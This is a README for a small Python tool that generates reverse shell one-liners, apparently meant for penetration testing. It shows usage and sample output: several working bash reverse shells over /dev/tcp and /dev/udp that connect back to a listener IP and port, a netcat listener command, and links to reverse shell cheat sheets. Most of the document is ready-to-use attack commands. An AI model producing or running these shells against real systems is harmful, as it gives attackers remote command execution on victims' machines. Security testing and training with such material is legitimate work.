 ### Revshell is a python script that will display multiple reverse shells in different programming langueges

<p>
    These shells were found online from different resources, they will be listed below
<p>

---

## Usage

```powershell
revshell.py -l [local IP] -p [port you want to listen on] -s [the language you want]
Example: revshell.py -l 10.10.10.10 -p 5555 -s bash 
```

## Output

```powershell
bash -i >& /dev/tcp/10.10.10.10/5555 0>&1

0<&196;exec 196<>/dev/tcp/10.10.10.10/5555; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.10.10.10/5555 0<&1 2>&1

You can use this for UPD

Victim host
sh -i >& /dev/udp/10.10.10.10/5555 0>&1

On your local machine
nc -u -lvp 5555
```
---

## Reverse shell's resources

[pentestmonkey]("https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet")

[Bernardo's Reverse Shell One-Liners]("https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html")

[payloadsallthethings]("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md")

---

<p>
    If you use this script and find it usefull then thank you and please let me know </br>
    if there is anything I can do to make it better. Also if you see something in the </br>
    code that could be done/written better please let me know as well, I am trying </br>
    to get better at my python coding.
</p>
